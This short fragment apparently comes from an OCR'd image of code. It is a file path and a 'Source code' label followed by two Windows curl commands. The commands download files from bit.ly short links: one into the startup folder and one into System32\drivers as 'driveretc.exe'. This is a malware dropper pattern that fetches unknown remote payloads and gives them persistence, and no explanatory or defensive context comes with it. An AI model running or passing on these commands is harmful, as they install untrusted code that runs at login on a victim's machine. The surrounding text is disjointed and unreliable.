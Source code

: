 curl bit.ly/4nZAfiq --output shell:startup
curl bit.ly/44IsndH --output C:\Windows\System32\drivers\driveretc.exe
